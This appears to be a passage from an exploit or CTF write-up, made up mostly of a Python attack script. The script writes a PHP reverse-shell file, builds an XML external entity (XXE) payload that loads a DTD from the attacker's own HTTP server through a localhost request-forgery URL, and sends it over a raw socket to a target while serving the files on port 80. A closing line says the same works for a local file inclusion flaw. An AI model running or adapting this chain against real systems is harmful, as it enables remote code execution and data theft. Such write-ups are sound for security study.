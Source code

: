 ```python
php_file.write(php_rev)
php_file.close()

xxe = f"""
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://localhost:4/?page=http://{HOST}/{FILENAME}">
%sp;
%param1;
]>
<r>&exfil;</r>

"""

request = f"""POST / HTTP/1.1
Host: {TARGET_HOST}:{TARGET_PORT}
Content-Length: {len(xxe)}
"""

final_req = (request + xxe).replace("\n","\r\n")
final_req = final_req.encode()

def start_server():
	port = 80
	handler = http.server.SimpleHTTPRequestHandler
	with socketserver.TCPServer(("", port), handler) as httpd:
		print(f"Server started on port {port}")
		httpd.serve_forever()

def send_payload():
	send_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	send_sock.connect((TARGET_HOST, TARGET_PORT))
	send_sock.send(final_req)
	send_sock.close()

def main():
	server_thread = threading.Thread(target=start_server)
	payload_thread = threading.Thread(target=send_payload)
	server_thread.start()
	payload_thread.start()

    server_thread.join()

main()
```

The same can be done for the LFI. 